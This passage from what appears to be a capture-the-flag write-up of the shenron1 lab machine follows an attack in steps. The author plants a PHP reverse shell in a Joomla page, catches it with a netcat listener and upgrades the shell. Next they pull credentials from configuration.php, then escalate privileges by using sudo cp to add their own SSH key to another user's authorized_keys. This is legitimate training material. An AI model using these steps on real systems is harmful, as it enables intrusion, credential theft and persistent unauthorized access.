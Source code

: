 So I targeted the index.php page and added a php reverse shell from pentestmonkey.

[<img src="/images/shenron1/revshell.png"
  style="width: 800px;"/>](/images/shenron1/revshell.png)

I set a netcat listener on my machine `nc -lvnp 9001` and then browsed to the index page. 

[<img src="/images/shenron1/revshellsuccess.png"
  style="width: 800px;"/>](/images/shenron1/revshellsuccess.png)

I upgraded my shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 
ctrl+z
stty raw -echo && fg
<press enter>
export TERM=xterm
```
So I had a reverse shell as www-data and it was time to escalate my priveleges.  I figured there would be some credentials hidden inside the joomla installation somewhere and I found the configuration.php file. 

[<img src="/images/shenron1/joomlaconfig.png"
  style="width: 800px;"/>](/images/shenron1/joomlaconfig.png)

And with that I was now able to login as jenny

```
su - jenny
```
[<img src="/images/shenron1/jennysudo.png"
  style="width: 800px;"/>](/images/shenron1/jennysudo.png)

By checking sudo -l I can see that jenny can run `/usr/bin/cp` as the user shenron.  This was interesting and after searching around on google for a while, I figured that I can either copy a file out of a location that shenron can access.  Or I can copy a file into a folder shenron can access.  Then it was clear, I could generate a SSH key on my attacker machine and upload the public key into the authorized_keys of shenron.  Which would allow me to ssh into the box as shenron.

`ssh-keygen`

`python3 -m http.server 80`

On the victim machine I requested the id_rsa.pub file and then copied the contents into a file called `authorized_keys`.  

I then used the command I could run as shenron to copy this file into /home/shenron/.ssh/

[https://gtfobins.github.io/gtfobins/cp/](https://gtfobins.github.io/gtfobins/cp/)

```
sudo -u shenron /usr/bin/cp authorized_keys /home/shenron/.ssh/
```

[<img src="/images/shenron1/cpssh.png"
  style="width: 800px;"/>](/images/shenron1/cpssh.png)
